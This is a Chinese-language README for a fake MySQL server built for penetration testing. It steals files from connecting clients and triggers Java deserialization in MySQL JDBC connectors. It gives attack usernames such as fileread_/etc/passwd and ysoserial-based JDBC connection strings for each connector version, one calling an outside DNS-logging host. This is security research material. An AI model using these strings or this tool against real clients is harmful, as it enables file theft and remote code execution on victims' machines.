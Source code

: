 # MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持ServerStatusDiffInterceptor和detectCustomCollations两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 运行：`python server.py`
6. **config.json中预置了一部分配置信息，可以自己修改添加指定用户名对应的读取文件和yso参数，详细看下面的说明**

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：https://www.anquanke.com/post/id/203086
用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。

- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上:** 不可用

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：** 不可用

- **5.0.x版本不可用** 

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data
